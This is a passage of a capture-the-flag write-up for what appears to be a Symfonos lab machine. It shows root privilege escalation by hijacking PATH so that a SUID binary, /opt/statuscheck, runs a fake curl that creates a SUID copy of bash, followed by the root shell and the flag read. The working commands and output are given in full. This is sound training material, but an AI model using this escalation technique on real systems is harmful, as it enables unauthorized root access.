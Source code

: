	![](images/Pasted%20image%2020220124035324.png)
	- Full Path of `curl` is not specified, susceptible to path hijacking
4. Exploit 
	1. Prepend `/tmp` to PATH environment
		```
		export PATH=/tmp:$PATH
		```
	2. Create `curl`, to spawn root shell
		```
		helios@symfonos:/tmp$ printf 'cp /bin/bash /tmp/rootbash && chmod u+s /tmp/rootbash\n' > /tmp/curl; chmod 4777 /tmp/curl;
		
		helios@symfonos:/tmp$ cat /tmp/curl 
		cp /bin/bash /tmp/rootbash && chmod u+s /tmp/rootbash
		```
	3. Execute `/opt/statuscheck`
	4. Obtain root shell
		```
		helios@symfonos:/tmp$ /opt/statuscheck 
		helios@symfonos:/tmp$ ls -la
		total 1088
		drwxrwxrwt  2 root   root      4096 Jan 23 22:00 .
		drwxr-xr-x 22 root   root      4096 Jun 28  2019 ..
		-rwsrwxrwx  1 helios helios      54 Jan 23 21:58 curl
		-rwsr-xr-x  1 root   helios 1099016 Jan 23 22:00 rootbash
		helios@symfonos:/tmp$ /tmp/rootbash -p
		rootbash-4.4# whoami
		root
		rootbash-4.4# 
		```
		![](images/Pasted%20image%2020220124040228.png)
5. Obtain Root Flag
	```
	rootbash-4.4# cat proof.txt 
